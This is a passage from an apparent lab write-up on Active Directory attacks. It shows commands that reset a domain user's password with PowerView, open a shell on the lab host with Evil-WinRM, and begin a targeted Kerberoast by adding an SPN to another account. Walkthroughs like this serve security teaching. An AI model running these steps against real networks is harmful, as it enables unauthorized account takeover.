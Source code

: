 As I already have a shell as oliver, I don’t need to pass that credential. I’ll just create a password and change it:

```
*Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity smith -AccountPassword $newpass

```

### Evil-WinRM

smith is a member of Remote Management Users:

![image-20220228054030528](https://0xdfimages.gitlab.io/img/image-20220228054030528.png)

This means the account can connect over WinRM. With the new password, I’ll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) again:

```

oxdf@hacky$ evil-winrm -i 10.10.11.132 -u smith -p '0xdf0xdf!'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\smith\Documents>

```

## Shell as Maria

### Kerberoast

The help in BloodHound for `GenericWrite` says:

> A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

I’ll add an SPN to maria’s account:

```
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}

```

For some reason, this doesn’t take:

```
*Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprinciplename

serviceprinciplename
--------------------

```
